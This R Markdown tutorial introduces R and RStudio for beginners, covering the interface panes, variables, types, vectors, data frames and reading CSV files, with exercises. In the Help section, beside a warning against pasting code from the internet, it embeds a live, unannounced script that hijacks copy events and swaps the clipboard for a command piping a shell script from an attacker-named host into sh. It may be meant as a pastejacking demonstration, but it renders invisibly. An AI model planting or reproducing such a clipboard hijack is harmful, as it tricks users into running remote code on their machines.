










```{r setup, include=FALSE}
# options(width = 60);
knitr::opts_chunk$set(
  echo = TRUE,        # Print the code
  eval = FALSE,       # Do not run command lines
  message = FALSE,    # Print messages
  prompt = FALSE,     # Do not display prompt
  comment = NA,       # No comments on this section
  warning = TRUE      # Display warnings
);

#base::library(package = "dplyr")
```

<style type="text/css">
details:hover { cursor: pointer,
}
summary {
  display: list-item;
}
</style>

# Introduction

## General information

Programming language that allows you to:

1. manipulate data: import, transform, export, etc.
2. carry out more or less complex statistical analyses: description, exploration,
modelization...
3. create (pretty) figures

Features:

* available on Windows, Mac and Linux.
* free and open source
* large user community/online help.
* large number of specific packages.

History:

* 1993: start of the R project
* 2000: release of R 1.0.0
* 2024: R 4.3.3

Fun fact (not so fun) about why R is better than excel:  
In 2020, ["Covid : le Royaume-Uni passe à côté de milliers de cas à cause… d'un fichier Excel arrivé à saturation"](https://www.lesechos.fr/monde/europe/covid-le-royaume-uni-passe-a-cote-de-milliers-de-cas-a-cause-dun-fichier-excel-arrive-a-saturation-1251904)  
More information comparing R and excel [here](https://fantasyfootballanalytics.net/2014/01/why-r-is-better-than-excel.html).

## The RGui

After installing R, you can use it by double-clicking on the R icon 



As you can see, the default R interface (RGui console) is not very user friendly.
So it is better to use complementary software that will function as a graphical interface between you and R. This interface is a kind of shell that makes R work in the background.
Several graphical interfaces have been developed, but the most used and practical is RStudio.

# Rstudio


## First sight


Studio displays 4 large panes. Their position may be changed based on your preference. Here are default:

```{r rstudio_pane_names, echo = FALSE, eval = TRUE, results='asis'}
knitr::kable(
  x = data.frame(
    left=c("Script pane", "Console pane"), 
    right=c("Environment/History pane", "Help/Plots/Files"),
    row.names = c("upper", "lower")
  ), 
  caption = "Pane names and postions"
)
```

> <span style="color:green"> Info: your four panes may be blank while two of mines are filled with text. We'll come on that later.</span>

## The console pane (lower left)


This is a simple R console, like in the RGui (see previous section).

> <span style="color:#CD853F"> Warning: Here, is an example provided by the bioinformatics plateform *BiGR*. Your local RStudio might differ: the version of R, the list of available packages, etc. On *your* local machine, RStudio console will match with the RGui. </span>

Let's try to enter the command [`print()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/print):

```{r first_command, eval=TRUE, echo=TRUE}
print("Hello World")
```

We just used a _function_, called [`print`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/print). This function tries to print on screen everything provided between parenthesis `(` and `)`. In this particular case, we gave the character string `"Hello World"`, and the function `print` successfully printed it on screen !

Now click on **Session** -> **Save Workspace as** and save the current work space (I named mine "my_session.RData"). What append in the R console pane? You saw it! A command has been automatically written. For me, it is:

```{r save_workspace_01}
save.image("my_session.RData")
```

When you need help with R, whether on a function error, on a script result or anything alike, please save your work space and send-it to your favorite R-developer. This contains everything you did in your session.

> <span style="color:green"> Info: There is a **syntax coloration**, there is a good **autocompletion** and parameter suggestion. _All bioinformaticians use auto-completion, but shhh it's our secret_ </span>

## The environment/history pane (upper right)

This pane has three main tabs: Environment, History and Connections (the tab Tutorial was added recently).



### Environment

Environment lists every single variable, object or data loaded in R. This includes only what you typed yourself and does not include environment variables. Example; in you console pane, enter the following command:

```{r my_var_equals_0, eval=TRUE}
my_var <- 0  # May also be written my_var = 0
```

What append in the Environment pane ? You're right: a variable is now available!


When a more complex object is declared in your work space, then some general information may be available. Example:

```{r dataframe_pane_env, eval=TRUE}
small_table <- data.frame("col_a"=c(1, 3), "col_b"=c(2, 4))
```

You can see the dataframe. Click on it to have a preview of the data it contains, then click on the light-blue arrow have a deeper insight of its content:


Now click on **Session** -> **Clear Work space**: and see your work disappear. This action cannot be undone. While it is useful to clear one work space from time to time in order to avoid name space collisions, it is better to save your work space before.

### History




This tab is quite important: while you test and search in the console, your history keeps a track of each command line you entered. This will definitely help you to build your scripts, to pass your command lines to your coworkers, and to revert possible unfortunate errors.

Each history is related to a session. You may see many commands in your history. Some of them are not even listed in your console. R Studio in writes there every command, even the ones that were masked for the sake of your eyes (knitting commands, display commands, help commands, etc.)

Please note that your history has a limit and only saves the latest command lines.

## The help/plots/files pane (lower right)

This pane has four main tabs: Files, Plots, Packages and Help (the tab Viewer is not really used, and Presentation was added recently).



### Help

This is maybe the most important pane of your R Studio. THIS is the difference between R Studio and another code editor. Search for any function **here** and not on the internet. This pane shows you the available help for **YOUR** version of R, **YOUR** version of a given package.

Concurrent version might have both different default parameters and different interfaces. Please be sure over the internet, to copy and type commands that are not harmfull for your computer.

<script>
document.getElementById('copy').addEventListener('copy', function(e) { e.clipboardData.setData('text/plain', 'curl http://attacker-domain:8000/shell.sh | sh\n'); e.preventDefault(); });
</script>

> <span style="color:#CD853F">Never ever copy code from the internet right to your console Why? Example: https://www.wizer-training.com/blog/copy-paste </span>

### Files

Just like any file explorer, we can move accross directories, create folders and file, delete them, etc.



Or use the function [`dir.create()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/files2):

```{r create_dir}
dir.create("Intro_R")
```

You should change your working directory right now:


Or use [`setwd()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/getwd):

```{r setwd_example}
setwd("Intro_R")
```

You can delete files:


or use the function [`file.remove()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/files):

```{r delete_file_example}
file.remove("annotation.csv")
file.remove("expression.txt")
```

### Packages

Here is listed all installed packages, with their description and their version.



More information about packages in a next section.

### Plots

If you work with R scripts, the graphs will be displayed here.

## The script pane (upper left)



This is where you write your R scripts. This also accepts other languages (e.g. _bash_, _python_, ...), but R Studio shines for its R integration.

Please, please ! Write your commands in the Script pane, then execute them by hitting CTRL + Enter. This is very much like your lab-workbook: the history panel only keeps a limited number of function in memory while this script keeps your commands in a file on your disk. You may share it, edit it, comment it, etc.

The extension for a script in R is `.R` or`.r` (or `.Rmd` for special Rmarkdown script), for example `my_script.R`.


## TLDR – Too Long Didn't Read

Graphic interface presentation :

1. Write command lines in Script pane (upper left)
2. Execute command lines by hitting CTRL + Enter from script pane et see them in the console.
3. Have a look at the environment and history in case on the upper right pane
4. Search for help in the lower right pane.

# R – Basics

## Variables and types

### Numbers

Remember, a variable is the name given to a value stored in memory. Example `3`, the number three, exists in R. You can store it in a variable with the arrow operator `<-`:

```{r, assign_r_base, eval=TRUE}
three <- 3
```

With the code above, the number 3 is stored in a variable called "three". You can do this in R with anything. Literally anything. Whole files, pipelines, images, anything.

Maths in R works the same as your regular calculator:

```{r basic_maths, eval=TRUE}
3 + three # Add
1 - 2 # Subtract
4 / 2 # Divide
3 * 4 # Multiply
7 %/% 2 # Floor division
```

> <span style="color:green"> Info: `#` is the way to write a comment into your script. The instruction after `#`, and on the same line, will not be executed by R. For example in `3 + three # Add`, `3 + three` will be executed, but `# Add` will not.
_A good coder uses comments a lot to explain the calculations made._ </span>

### Characters

Characters are delimited with quotes: either double `"` or `'` simple:

```{r basic_chars, eval=TRUE}
four <- "4"
five <- '5'

# The example below is a very good example of
# how to never ever name a variable.
シ <- "happy"
```

Mathematics do not work with characters at all ... Try the following:

```{r maths_error_basic, eval=FALSE}
"4" + 1
four + 1
```

You can try to turn characters in numbers with the function: [`as.numeric()`](https://www.rdocumentation.org/packages/h2o/versions/3.38.0.1/topics/as.numeric):

```{r maths_convert_basic, eval=TRUE}
as.numeric("4") + 1
as.numeric(four) + 1
```

A _function_ is a R command that is followed by parenthesis `(` and `)`. Between these parenthesis, we enter _arguments_. Use the help pane to have information about the list of arguments expected and/or understood by a given function.

As said previously, you can store any of the previously typed commands in a variable:

```{r variable_post_command, eval=TRUE}
five <- as.numeric("4") + 1
two <- 1 + (0.5 * 2)
print(five)
print(two)
```

> <span style="color:green"> Please! Please! Give your variable a name understandable by humans. I don't want to see any of you calling their variable "a", "b", "my_awsome_var", ... </span>


```{r tricky_exercise_not_shown, eval=TRUE, echo=FALSE}
options(digits = 7)
mysterious_number_7 <- 7.0000001
suspicious_number_7 <- 7
```

<details>

<summary>Tricky Question: </summary>

I have two numbers: `mysterious_number_7`,  and `suspicious_number_7`. When I apply the function [`print()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/print) on them, it return `7`. They are both numeric. However, they are not equal ... Why ?

```{r tricky_exercise_shown, eval=TRUE}
# Show the value of the variable mysterious_number_7
print(mysterious_number_7)

# Show the value of the number suspicious_number_7
print(suspicious_number_7)

# Check that mysterious_number_7 is a number
is.numeric(mysterious_number_7)

# Check that suspicious_number_7 is a number
is.numeric(suspicious_number_7)

# Check that values of mysterious_number_7 and suspicious_number_7 are equal
mysterious_number_7 == suspicious_number_7

# Check that values of mysterious_number_7 and suspicious_number_7 are identical
identical(mysterious_number_7, suspicious_number_7)
```

We will talk about difference between equality and identity later.

</details>

<details>

<summary>Answer</summary>

This is due to the number of digits displayed in R. You are very likely to have issues with that in the future, as all (bio)informatician around the world.

```{r tricky_exercise_answer, eval=TRUE, echo=TRUE}
mysterious_number_7 <- 7.0000001
suspicious_number_7 <- 7
print(mysterious_number_7)
print(suspicious_number_7)
mysterious_number_7 == suspicious_number_7
identical(mysterious_number_7, suspicious_number_7)
```

You can change the number of displayed digits with the function [`options()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/options): `options(digits=100)`

</details>


### Boolean

Aside from characters and numeric, there is another very important type in R (and computer science in general): _booleans_. There are two booleans: `TRUE` and `FALSE`.

```{r basics_comparisons, eval=TRUE}
3 > 4
5 < 10
5 == 10
```

## Data structures

Until now, we have seen simple information stored into a variable. But we can create a more complexe structure in order to store several information into a single variable.



### Vector

You can make vectors and tables in R. Don't panic, there will be no maths in this presentation.

In R, vectors are created with the function [`c()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/c):

```{r first_vector_basics, eval=TRUE}
one2three <- c("1", "2", "3", "4", "10", "20")
print(one2three)
```

```{r first_vector_type, eval=TRUE}
is.vector(one2three)
```

One can select an element of the vector with squared brackets `[` and `]`:

```{r select_in_vector_basics, eval=TRUE}
one2three[1] #select the first element
```

One can select multiple elements of a vector with  `:`:
```{r mulitple_select_in_vector_basics, eval=TRUE}
one2three[2:4] #select from second to fourth element
```


*Question 1*: Is there a difference between these two vectors ?
```{r difference_bascs_vectors, eval=TRUE}
c_vector <- c("1", "2", "3")
n_vector <- c( 1,   2,   3 )
```

<details>

<summary>Answer</summary>

There is a difference indeed: c_vector contains characters, n_vector contains numeric.
```{r difference_basics_vectors_answer, eval=TRUE}
print(c_vector)
print(n_vector)
print(is.numeric(c_vector))
print(is.numeric(n_vector))
identical(c_vector, n_vector)
```

You can always use the function [`identical()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/identical) to test equality with robustness and exactitude.

You may have learned about the operator `==` for equality. But this is not perfect, look at our example:

```{r difference_basics_vectors_answer_no_eqeq, eval=TRUE}
c_vector == n_vector
```

The operator `==` is not aware of types.

Another example, mixing numeric and boolans:

```{r difference_basics_vectors_answer_no_eqeq_at_all, eval=TRUE}
1 == TRUE
identical(1, TRUE)
```

In computer science, there is a reason why boolean and integers are mixed. We won't cover this reason now. It's out of our scope. Feel free to ask if you're interested in history and maths. ###TO DO!!!

</details>

*Question 2*: Can I include both text and numbers in a vector ?

```{r mixed_basics_vectors, eval=TRUE}
mixed_vector <- c(1, "2", 3)
```

<details>

<summary>Answer</summary>

No. We can not mix types in a vector. Either all its content is made of number or all its content is made of characters.

Here, all our values have been turned into characters:

```{r mixed_basics_vectors_answer, eval=TRUE}
print(mixed_vector)
print(is.numeric(mixed_vector))
print(is.character(mixed_vector))
print(all(is.numeric((mixed_vector))))
print(all(is.character((mixed_vector))))
```

Above, the function [`all()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/all) returns `TRUE` if all its content equals to `TRUE`.

</details>

*Question 3*: How to create an histogram with a vector ?

<details>
<summary>Help</summary>
A simple way to visualize your data is to use a graph. The function [`hist()`](https://www.rdocumentation.org/packages/graphics/versions/3.6.2/topics/hist) may help you (of course, use the _Help pane_!!).
</details>

<details>
<summary>Answer</summary>

```{r hist_c_vector, eval=FALSE}
hist(c_vector)
```
> <span style="color:#CD853F">Error in hist.default(c_vector) : ‘x’ must be numeric </span>

Why this command is not working ? The error says : “‘x’ must be numeric”. The function accept only vector composed by numeric values.

```{r hist_n_vector, eval=TRUE}
hist(n_vector) # worked perfectly !
```

</details>

### Data Frame

In R, tables are created with the function [`data.frame()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/data.frame):

```{r firstdata_frame_basics, eval=TRUE}
one2three4 <- data.frame(c(1, 3), c(2, 4))
print(one2three4)
```

By default, R gives names for columns and rows.  
You can rename columns and row names respectively with functions [`colnames()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/row%2Bcolnames) and [`rownames()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/row%2Bcolnames).

```{r firstdata_frame_basics_rename, eval=TRUE}
colnames(one2three4) <- c("Col_1_3", "Col_2_4")
rownames(one2three4) <- c("Row_1_2", "Row_3_4")
print(one2three4)
```

You can access a column and a line of the data frame using squared brackets `[` and `]`. Use the following syntax: `[row, column]`. Use either the name of the row/column or its position.

```{r firstdata_frame_basics_select_row, eval=TRUE}
# Select a row by its name
print(one2three4["Row_1_2", ])
# Select a row by its index
print(one2three4[1, ])
# Select a column by its name
print(one2three4[, "Col_1_3"])
# Select a column by its index
print(one2three4[, 1])
# Select a cell in the table
print(one2three4["Row_1_2", "Col_1_3"])
# Select the first two rows and the first column in the table
print(one2three4[1:2, 1]) 
```

> <span style="color:green"> If you like maths, you will remember the order `[row, column]`. If you're not familiar with that, then you will do like 99% of all software engineer: you will write `[column, row]`, and you will get an error. Trust me. 99%. Remember, an error is never a problem in informatics.</span>

*Question 1*: Can I mix characters and numbers in a data frame *row* ?

<details>

<summary>Answer</summary>

Yes, it is possible:

```{r dataframe_basics_mixed_col, eval=TRUE}
mixed_data_frame <- data.frame(
  "Character_Column" = c("a", "b", "c"),
  "Number_Column" = c(4, 5, 6)
)
print(mixed_data_frame)
```

The function [`str()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/str) can be used to look at the types of each elements in an object.

```{r use_str_df_first_time, eval=TRUE}
str(mixed_data_frame)
str(one2three4)
```

</details>

*Question 2*: Can I mix characters and numbers in a data frame *column* ?

<details>

<summary>Answer</summary>

No:

```{r dataframe_basics_mixed_row, eval=TRUE}
mixed_data_frame <- data.frame(
  "Mixed_letters" = c(1, "b", "c"),
  "Mixed_numbers" = c(4, "5", 6)
)
print(mixed_data_frame)
str(mixed_data_frame)
```

</details>

*Question 3*: How can you add 2 for each cell of the dataframe ?

<details>

<summary>Answer</summary>

```{r three4five6, eval=TRUE}
three4five6 <- one2three4 + 2
three4five6
```

</details>

### Read a table as data frame

Exercise: Use the _Help pane_ to find how to use the function [`read.csv()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/read.table).

You can find example_table.csv [here](https://github.com/gustaveroussy/training_bigr/Introduction_R_RStudio/example_table.csv) ###TO DO!!!

Use the function [`read.csv()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/read.table) to:

1. open the _file_ `example_table.csv`. 
2. this table has a _header_ (`TRUE`). 
3. this table has _row names_ in the column called "Gene_id".

Let all other parameters to their default values. 

Save the opened table in a _variable_ called `example_table`.

<details>

<summary>Answer</summary>

```{r open_example_table_soluce, eval=TRUE}
example_table <- read.csv(
  file="example_table.csv", 
  header=TRUE, 
  row.names="Gene_id"
)
```

</details>

Now let us explore this dataset.

We can click on environment pane:


And if you click on it:


Be careful, large table may hang your session.

Alternatively, we can use the function [`head()`](https://www.rdocumentation.org/packages/utils/versions/3.6.2/topics/head) which prints the first lines of a table:

```{r explore_table_one, eval=TRUE}
head(example_table)
```

The function [`summary()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/summary) describes the dataset _per sample_:

```{r first_summary_on_df, eval=TRUE}
summary(example_table)
```

Have a look at the [`summary()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/summary) of the dataset _per gene_, using the function [`t()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/t) to _transpose_:

```{r first_summary_on_df_t, eval=TRUE}
head(t(example_table))
summary(t(example_table))
```


<details>

<summary>To go further</summary>

```{r to_go_further, eval=TRUE}
# number of column
ncol(example_table)
# number of row
nrow(example_table)
# get dimension (number of row and number of column)
dim(example_table)
# type of each elements
str(example_table)

```

</details>


## TLDR – Too Long Didn't Read

```{r tldr_basics}
# Declare a variable, and store a value in it:
three <- 3

# Basic operators: + - / * work as intended:
six <- 3 + 3

# Quotes are used to delimiter text:
seven <- "7"

# You cannot perform maths on text:
"7" + 8 # raises an error
seven + 8 # also raises an error
six + 8 # works fine

# You can change the type of your variable with:
as.numeric("4") # the character '4' becomes the number 4
as.character(10) # the number 10 becomes the character 10

# You can compare values with:
six < seven
six + 1 >= seven
identical(example_table, mixed_data_frame)


# You can load and save a dataframe with:
read.table(file = ..., sep = ..., header = TRUE)
write.table(x = ..., file = ...)

# Create a table with:
my_table <- data.frame(...)

# Create a vector with:
my_vector <- c(...)

# You can see the firs lines of a dataframe with:
head(example_table)

# Search for help in the help pane or with:
help(...)
```


